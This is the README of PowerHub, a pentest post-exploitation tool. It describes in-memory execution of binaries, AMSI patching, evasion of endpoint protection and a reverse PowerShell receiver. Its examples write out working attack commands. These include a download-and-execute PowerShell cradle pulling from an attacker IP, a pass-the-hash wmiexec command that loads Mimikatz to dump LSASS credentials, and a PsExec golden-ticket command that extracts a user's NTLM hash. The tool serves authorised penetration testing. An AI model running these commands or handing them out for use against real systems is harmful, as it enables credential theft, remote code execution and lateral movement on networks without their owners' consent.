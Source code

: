 PowerHub
========

PowerHub is a web application which aids a pentester in transferring files,
in particular code which may get flagged by endpoint protection.

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

On top of that, PowerHub comes with a powerful reverse PowerShell, making
it suitable for any kind of post-exploitation action.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;$K.proxy=[Net.WebRequest]::GetSystemWebProxy();$K.Proxy.Credent
ials=[Net.CredentialCache]::DefaultCredentials;IEX $K.downloadstring('http://192.168.11.2:8000/0');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
AmsiScanBuffer patch has been applied.
0
PS C:\Users\avollmer> lhm powerview
[*] /ps1/PowerSploit/Recon/PowerView.ps1 imported.
PS C:\Users\avollmer> Get-LocalGroup | ConvertTo-Json | Out-file groups.json
PS C:\Users\avollmer> pth groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)

How it works
============

The web application is made with Flask and consists of four parts.

The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, PE executables, or shell code. You can load them on the target via
PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

A simple interface to install modules is provided for your convenience.

The Receiver
------------

The receiver catches incoming reverse shells and lists them here. Each shell
receives a random ID consisting of an eight digit hex string. You can
interact with it by executing the accompanying script: `./ph <ID>`.

This lands you inside a PowerShell instance. It's a _nice_ shell, too: It
supports colors, a history, tab completion, it respects your terminal's
column count and accidentally pressing CTRL+C is not a big deal - simply
reconnect to it.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one-liners, and so forth. It's like an extremely basic
[Etherpad](https://etherpad.org/) or a guest book, but non-persistent.

The File Exchange
-----------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

If you have the necessary Python modules installed, a WebDAV service is also
started. You can mount it on the target as a network drive with
`Mount-WebDAV` (as 'S:' by default). It allows for anonymous login and it
contains three folders:

* `public` with read/write access for everyone
* `ro` with *read only* access for everyone -- maybe you can bypass a weak
  anti virus with this
* `blackhole` for dropping sensitive data. Any file placed here via WebDAV
  will immediately be moved to the `blackhole` directory in the script's
  root directory.

The dependencies for the WebDAV service are `wsgidav` (installable via
`pip3`), `cheroot` and `watchdog`.

Usage
=====

PowerHub has two mandatory arguments: the first is the callback host (can be
an IP address) and the second is either `--auth <user>:<pass>` or
`--no-auth`. The latter disables basic authentication which is *not
recommended*. This host name is used by the stager to download the payload.
If the callback port or path differ from the default, it can also be
changed.

Read `./powerhub.py --help` for details.

Examples
========

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/0\"); Load-Hubmodule Mimikatz ; Invoke-Mimikatz -DumpCreds "'
```

Or similarly, if you obtained the `krbtgt` hash and created a golden ticket
which you injected with Mimikatz. Then you can get the NTLM hash of any
arbitrary user in the forest:

```
PS C:\Users\pentestuser> .\PsExec64.exe \\DC01.acme.local -s powershell -c '$K=new-object net.webclient;IEX $K.downloadstring(\"http://192.168.1.5:8000/0\");load-hubmodule mimikatz; Invoke-Mimikatz -Command ''\"lsadump::lsa /inject /name:adm_targetuser\"'''
```

Getting the escape sequence on the quotes right can be tough...

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
